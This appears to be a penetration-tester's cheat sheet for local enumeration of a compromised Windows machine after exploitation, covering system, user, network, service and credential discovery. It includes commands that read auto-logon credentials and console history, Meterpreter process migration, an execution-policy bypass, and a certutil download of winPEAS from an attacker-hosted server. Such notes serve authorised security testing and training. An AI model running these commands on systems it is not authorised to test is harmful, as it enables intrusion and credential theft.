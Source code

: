 # Windows - Local Enumeration

### Manual Windows Local enumeration

### System Information

```bash
# Shell
hostname
systeminfo
wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic product get name,version,vendor # all software with version in the machine

# Meterpreter
getuid
sysinfo
cd C:\Windows\System32\ && cat eula.txt # The file may not be exist
```

### Users & Groups

{% code title="Cmd" %}
```bash
whoami
whoami /all
whoami /priv
query user
net users
net user SYS_USER # (ex Administrator, guest, antonio)
net localgroup
net localgroup GROUP_NAME # view users in the group
net localgroup administrators # view user in administrators's group
```
{% endcode %}

{% code title="Meterpreter" %}
```bash
getuid
getprivs
```
{% endcode %}

{% code title="msfconsole" %}
```bash
use post/windows/gather/enum_logged_on_users
set sessions N
run
```
{% endcode %}

### Network information

{% code title="Cmd" %}
```bash
ipconfig
ipconfig /all
route print
arp -a
netstat -ano

netsh firewall show state
netsh advfirewall firewall help
netsh advfirewall show allprofiles
```
{% endcode %}

### Processes & Services

{% code title="Meterpreter session" %}
```bash

ps
pgrep SERVICE_NAME # pgrep explorer.exe
migrate PID

# Services
net start
wmic service list brief
tasklist /SVC
schtasks /query /fo LIST /v
```
{% endcode %}

### Console History

```powershell
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```



### Auto Logon credentials

{% code title="Cmd" %}
```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```
{% endcode %}



### Juicy Directory

```bash
cd C:\ # look for some custom directory
cd C:\Users\*\Documents
cd C:\Users\*\Desktop
cd C:\Users\*\Download
```



## Automating Windows Local Enumeration

### JAWS

{% embed url="https://github.com/411Hall/JAWS" %}

1. Copy .ps1 script on attcker machine
2. upload on meterpreter session (in C:\Temp)
3. run this command on windows shell

```bash
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
```

```bash
# download file on attack machine
download JAWS-Enum.txt
```

### winPEAS

Download the last version on attacker machine

{% embed url="https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS" %}

{% code overflow="wrap" %}
```bash
wget https://github.com/peass-ng/PEASS-ng/releases/download/20250113-4426d62e/winPEASx64.exe
```
{% endcode %}

Transfer file to target machine

```bash
# attacker machine 
python3 -m http.server 80

# target machine
certutil -urlcache -f http://IP:80/winPEASx64.exe winPEASx64.exe
```

Execute WinPEAS on target machine

```powershell
.\winPEASx64.exe > peas.txt
```





***

### Metasploit

<pre class="language-bash"><code class="lang-bash"><strong># Metasploit
</strong>service postgresql start &#x26;&#x26; msfconsole

## Modules
use post/windows/gather/win_privs
use post/windows/gather/enum_logged_on_users
use post/windows/gather/checkvm
use post/windows/gather/enum_applications
use post/windows/gather/enum_computers
use post/windows/gather/enum_patches
use post/windows/gather/enum_shares

set session N
run
</code></pre>
